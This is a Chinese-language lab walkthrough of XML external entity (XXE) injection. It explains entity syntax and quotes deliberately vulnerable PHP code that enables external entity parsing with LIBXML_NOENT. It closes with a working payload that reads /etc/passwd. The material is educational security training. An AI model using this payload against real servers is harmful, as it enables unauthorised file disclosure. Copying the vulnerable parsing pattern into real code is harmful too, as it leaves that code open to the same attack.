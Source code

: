 
# 概述
XXE "xml external entity injection"既"xml外部实体注入漏洞"。概括一下就是"攻击者通过向服务器注入指定的xml实体内容,从而让服务器按照指定的配置进行执行,导致问题"也就是说服务端接收和解析了来自用户端的xml数据,而又没有做严格的安全控制,从而导致xml外部实体注入。

具体的关于xml实体的介绍,网络上有很多,自己动手先查一下。现在很多语言里面对应的解析xml的函数默认是禁止解析外部实体内容的,从而也就直接避免了这个漏洞。以PHP为例,在PHP里面解析xml用的是libxml,其在≥2.9.0的版本中,默认是禁止解析xml外部实体内容的。

XML语法结构大致如下
```
第一部分：XML声明部分
<?xml version="1.0"?>

第二部分：文档类型定义 DTD
<!DOCTYPE note[ 
<!--定义此文档是note类型的文档-->
<!ENTITY entity-name SYSTEM "URI/URL">
<!--外部实体声明-->
]>

第三部分：文档元素
<note>
<to>LS</to>
<from>XMTX</from>
<head>Reminder</head>
<body>Is a good</body>
</note>
```


# XXE漏洞

## 查看关键代码
```php
$html='';
//考虑到目前很多版本里面libxml的版本都>=2.9.0了,所以这里添加了LIBXML_NOENT参数开启了外部实体解析
if(isset($_POST['submit']) and $_POST['xml'] != null){


    $xml =$_POST['xml'];
//    $xml = $test;
    $data = @simplexml_load_string($xml,'SimpleXMLElement',LIBXML_NOENT);
    if($data){
        $html.="
<pre>{$data}</pre>";
    }else{
        $html.="<p>XML声明、DTD文档类型定义、文档元素这些都搞懂了吗?</p>";
    }
}
```

可以看到添加了LIBXML_NOENT参数开启了外部实体解析


## 实战
这个也没什么好说的吧
```
<?xml version = "1.0"?>
<!DOCTYPE ANY [
    <!ENTITY XMTX SYSTEM "file:///etc/passwd">
]>
<x>&XMTX;</x>
```
![image-20210715152910525.png](./assets/1655881363832-a1066b59-2df0-4d26-aea1-9da25c6a5d4a.png)
